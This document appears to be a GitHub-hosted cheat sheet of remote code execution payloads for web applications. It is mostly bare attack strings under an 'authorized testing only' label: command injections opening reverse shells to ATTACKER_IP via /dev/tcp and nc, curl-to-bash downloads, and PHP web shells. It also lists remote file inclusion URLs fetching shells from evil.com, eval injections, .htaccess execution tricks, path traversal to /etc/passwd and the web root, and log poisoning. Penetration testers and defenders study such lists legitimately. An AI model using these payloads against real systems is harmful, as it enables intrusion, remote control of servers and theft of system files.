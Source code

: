🛡 RCE Exploitation Vectors
_By CybrX1337 – BURPSUITE_

⚠ **Educational / Authorized Testing Only**

---

## 1. Command Injection Payloads

; id
&& whoami
| uname -a
|| ls -la
`whoami`
$(whoami)
; /bin/bash -c "echo hacked > /tmp/hacked.txt"
; /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
&& /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
| nc -e /bin/sh ATTACKER_IP 4444
; nc -e /bin/sh ATTACKER_IP 4444
&& nc -e /bin/sh ATTACKER_IP 4444
; ping -c 5 ATTACKER_IP
| ping -c 5 ATTACKER_IP
&& ping -c 5 ATTACKER_IP
; curl http://ATTACKER_IP/shell.sh | bash
| curl http://ATTACKER_IP/shell.sh | bash
; echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
| cat /etc/passwd
&& cat /etc/passwd

Replace ATTACKER_IP with your own IP for reverse shell commands.

---

## 2. Remote File Inclusion (RFI) Payloads

?page=http://evil.com/shell.txt
?page=http://evil.com/shell.txt?cmd=id
?page=http://evil.com/shell.txt%00
?page=php://filter/convert.base64-encode/resource=http://evil.com/shell.txt
?page=http://evil.com/shell.txt%23
?page=http://evil.com/shell.txt%0a
?page=http://evil.com/shell.txt%0d%0a
?page=http://evil.com/shell.txt%09
?page=\\evil.com\shell.txt
?page=//evil.com/shell.txt
?page=./http://evil.com/shell.txt
?page=php://input
?page=php://input?cmd=id
?page=php://filter/read=convert.base64-encode/resource=http://evil.com/shell.txt
?page=expect://id
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=
?page=ftp://evil.com/shell.txt
?page=http://evil.com/shell.txt?cmd=ls+-la
?page=http://evil.com/shell.txt?cmd=uname+-a
?page=http://evil.com/shell.txt?cmd=whoami
?page=http://evil.com/shell.txt?cmd=nc+-e+/bin/bash+attacker_ip+port
?page=http://evil.com/shell.txt%00.jpg

---

## 3. Unsafe eval() Injection Payloads

?code=system('id')
?code=exec('whoami')
?code=passthru('ls -la')
?code=assert($_GET[cmd])

---

## 4. Post-upload Execution Triggers

Using .htaccess to treat .jpg as PHP:

AddType application/x-httpd-php .jpg

Overwrite existing script by path traversal:

../../../../var/www/html/shell.php

---

## 5. Path Traversal Payloads (for LFI, File Overwrite, or Upload Bypass)

../../../../../../etc/passwd
../../../var/www/html/shell.php
../../../../../../tmp/shell.php
..%2f..%2f..%2f..%2fetc/passwd
..\\..\\..\\..\\windows\\system32\\drivers\\etc\\hosts
....//....//....//....//etc/passwd
../../../../../../var/log/apache2/access.log
../../../../../../var/log/nginx/access.log
../../../../../../proc/self/environ
../../../../../../dev/shm/shell.php
../../../../../../tmp/shell.php
../uploads/../../shell.php

---

## 6. Local File Inclusion (LFI) + Log Poisoning Payload Example

    Inject into access log or user agent:

<?php system($_GET['cmd']); ?>

    Access via LFI:

?page=../../../../var/log/apache2/access.log&cmd=id

---

## 7. File Upload Path Traversal Example

Upload filename:

../../../../var/www/html/shell.php

    If the upload function is vulnerable to path traversal, attacker can overwrite web root files.

---

## 8. URL Encoded Variants

..%2f..%2f..%2f..%2fetc/passwd
..%5c..%5c..%5c..%5cwindows\system32\drivers\etc\hosts
